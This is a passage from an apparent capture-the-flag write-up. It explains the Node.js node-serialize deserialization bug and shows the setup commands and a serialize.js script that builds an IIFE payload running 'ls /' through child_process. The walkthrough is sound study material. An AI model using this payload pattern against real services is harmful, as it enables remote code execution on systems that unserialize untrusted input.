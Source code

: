 Everything makes me suspect that I must perform an exploitation of the Node.js deserialization bug. If we read the **[Exploiting Node.js deserialization bug for Remote Code Execution](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/){:target="_blank"}** article, it explains the reason for this bug and also gives us the necessary **scripts** to perform it. An **RCE** can be obtained thanks in great part to the **Immediately invoked function expression (IIFE)**.

To understand this exploit, I will first install the **Node.js** package manager on my machine, `npm`, then I need to install `node-serialize` and run the scripts in my terminal. It is recommended that the **Payload** that I should send to the `unserialize` function, should be created with the `serialize` function, from the same `node-serialize` module, so with the **serialize.js** script I make a **RCE** test by adding the **IFF brackets** after the body of the function and it is done successfully, In this case, we list the contents of my root directory.

If I run the script without the **brackets**, I get the serialized data correctly, but if I add them I don't get the serialized data but I get the RCE.

> Untrusted data passed into unserialize() function in node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE).

> **npm** is the package manager for the Node JavaScript platform. It puts modules in place so that node can find them, and  manages dependency conflicts intelligently.

> **Node.js** is a set of libraries for JavaScript which allows it to be used outside of the browser. It is primarily focused on creating simple, easy-to-build network clients and servers.

```bash
which npm

apt install npm
#Node.js packet manager

npm install node-serialize
nvim serialize.js
```

> **serialize.js**

```javascript
var y = {
  rce : function(){
  require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
  },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

```bash
which node                  # :)
node serialize.js
```

<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_40.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_41.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
